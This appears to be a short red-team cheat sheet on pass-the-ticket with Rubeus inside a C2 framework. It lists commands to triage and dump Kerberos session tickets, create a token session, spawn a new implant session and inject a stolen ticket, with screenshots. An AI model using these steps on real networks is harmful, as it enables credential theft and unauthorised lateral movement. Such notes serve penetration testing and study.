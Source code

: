 # Rubeus

## Rubeus

### Pass the Ticket

#### - Show all session tickets

```
Rubeus triage
```

![](<../../../../.gitbook/assets/image (3) (1).png>)

#### - Dump the tickets

```
Rubeus dump
```

![](<../../../../.gitbook/assets/image (103).png>)

#### Loot are available in Data pane:

![](<../../../../.gitbook/assets/image (275).png>)

#### Copy the base64 ticket (bug from data interface, copy the interactive window)

![](<../../../../.gitbook/assets/image (311).png>)

#### Create a new session using MakeToken

```
MakeToken help

[!] Usage: MakeToken <username> <domain> <password>[ <logontype> ]
```

![](<../../../../.gitbook/assets/image (272).png>)

#### Create a new grunt session&#x20;

```
CreateProcessWithToken

[!] Usage: CreateProcessWithToken <command>[ <path> ]
```

![](<../../../../.gitbook/assets/image (101).png>)

#### Pass the ticket

```
rubeus ptt /ticket:
```

![](<../../../../.gitbook/assets/image (260).png>)

![](<../../../../.gitbook/assets/image (7).png>)

#### cifs ticket injected&#x20;

![](<../../../../.gitbook/assets/image (126).png>)

###
